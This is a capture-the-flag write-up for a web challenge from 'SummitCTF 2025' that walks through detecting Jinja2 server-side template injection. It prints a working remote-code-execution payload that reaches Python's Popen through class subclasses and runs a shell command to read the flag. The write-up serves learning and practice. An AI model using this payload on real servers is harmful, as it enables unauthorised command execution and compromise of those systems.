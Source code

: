 ```yaml
---
layout: post
CTF: "SummitCTF 2025"
author: Xpl01te4gl3
date: 2025-04-12
categories: ["Web"]
tags: ["SSTI","Jinja2","RCE"]

---
```


# Writeup #1 – Temps

## Overview
This challenge hinted at Server-Side Template Injection (SSTI) based on the page title. By trying a few basic expressions, I confirmed SSTI was in play — likely using Jinja2 — and then used that to execute system commands and read the flag.

## Step-by-Step Breakdown:

### Step 1: Access the Challenge Page
The challenge displayed this message:
  ``` 
  Welcome to the SSTI Challenge! Try to get the flag by exploiting the greeting page.
  ```

### Step 2: Test for SSTI
To check if template injection was possible, I entered:
 ```
  {{7*7}} 
```

And the output was:
   ``` 
   Hello, 49! 
   ```

Boom — SSTI confirmed. The server was evaluating the template expression. From the syntax, it was clear the backend was using Jinja2.

### Step 3: Exploit SSTI for Code Execution
Once SSTI was confirmed, I used a well-known Jinja2 RCE payload to execute system commands:
```
{{''.__class__.__mro__[1].__subclasses__()[354]('cat /flag', shell=True, stdout=-1).communicate()[0].decode()}} 
```

This payload finds the Popen class from Python's standard library to run system commands on the server.

### Step 4: Retrieve the Flag
Running the payload returned:
```
   SummitCTF{sStI_1s_r3ally_popul4r_4_some_r3s0n}
```

